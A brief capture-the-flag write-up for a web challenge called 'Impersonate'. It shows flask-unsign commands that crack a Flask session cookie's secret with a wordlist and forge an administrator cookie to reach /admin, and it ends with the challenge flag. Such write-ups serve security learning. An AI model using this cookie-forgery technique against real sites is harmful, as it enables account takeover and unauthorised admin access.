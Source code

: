 # Impersonate 

Solved by: @Cookies to SELL

- Category: web
- Description: One may not be the one they claim to be.
- Challenge File: app.py

### Solutions:

1. Login as any user at first place. (Just notice the cookies quite different since different timezone).(useless cookies in script):X
2. `flask-unsign --wordlist hello.txt --unsign --cookie 'cookiesfromwebsite' --no-literal-eval` >> will return secret.
3. `flask-unsign --sign --secret <puthere> --cookie "{'is\_admin': True, 'uid': '02ec19dc-bb01-5942-a640-7099cda78081', 'username': 'administrator'}"`
4. access /admin endpoint and change cookies from step3. 


**Flag:** `PCTF{Imp3rs0n4t10n_Iz_Sup3r_Ezz}`

